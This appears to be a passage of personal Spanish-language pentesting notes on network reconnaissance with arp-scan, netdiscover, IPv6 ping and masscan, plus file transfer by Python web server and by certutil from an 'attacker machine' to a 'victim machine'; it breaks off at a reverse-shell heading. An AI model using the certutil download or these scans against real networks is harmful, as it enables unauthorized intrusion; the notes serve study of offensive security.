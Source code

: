 ## DETECTAR EQUIPOS CONECTADOS A MI RED CON ARP-SCAN
Para ello tenemos que ejecutar el siguiente comando pasándole la interfaz de red que estemos utilizando:
![[Mis apuntes/ANEXOS/Pasted image 20221230095219.png]]
Y por ejemplo si la interfaz de red es otra, la tendremos que seleccionar (como en este caso que estoy utilizando un portátil):
![[Mis apuntes/ANEXOS/Pasted image 20221230095402.png]]
## DETECTAR EQUIPOS CONECTADOS A MI RED CON NETDISCOVER
También podemos hacer esto mismo pero con netdiscover:
```bash
netdiscover -i eth0 -r 192.168.0.0/24
```
![[Mis apuntes/ANEXOS/Pasted image 20230726112842.png]]
## DETECTAR LAS IPV6 DE LOS EQUIPOS CONECTADOS A MI RED
Para poder encontrar las direcciones IPv6 de los equipos que estén dentro de mi red, utilizo el siguiente comando:
```bash
ping6 -c2 -n -I eth0 ff02::1
```
Y esto me devuelve las IPv6 de los equipos de mi red privada:
![[Pasted image 20240107201848.png]]
## DETECTAR PUERTOS ABIERTOS DE TODOS LOS HOSTS DENTRO DE MI RED CON MASSCAN
Podemos utilizar esta herramienta de la siguiente forma y me detecta todos los puertos 445 de todos los equipos conectados a mi rando de red:
![[Mis apuntes/ANEXOS/Pasted image 20230414125831.png]]
También podemos hacerlo como /16 por si queremos ampliar la búsqueda de más equipos que se encuentren en otros rangos de la red, por ejemplo si hay un host que sea 192.168.0.20.44:
![[Mis apuntes/ANEXOS/Pasted image 20230414125924.png]]
## COMPARTIR ARCHIVOS POR SERVIDOR WEB DE PYTHON
Para ello nos ubicamos dentro del directorio que queramos compartir y ejecutamos lo siguiente:
![[Mis apuntes/ANEXOS/Pasted image 20221217112301.png]]
Ahora si hacemos un localhost o introducimos la IP que nos dicen, aparecerá lo siguiente:
![[Mis apuntes/ANEXOS/Pasted image 20221217112310.png]]
## COMPARTIR ARCHIVOS CON CERTUTIL
También podemos compartir archivos por la red usando certutil, de tal forma que desde la máquina atacante podemos levantar un servidor http:
![[Pasted image 20231202124800.png]]
Y para recibir el archivo podemos utilizar certutil desde la máquina víctima:
```python
certutil -split -urlcache -f http://192.168.0.32/test.txt
```
![[Pasted image 20231202124834.png]]
## CONSEGUIR REVERSE SHELL DE MÁQUINA VÍCTIMA A NUESTRO EQUIPO

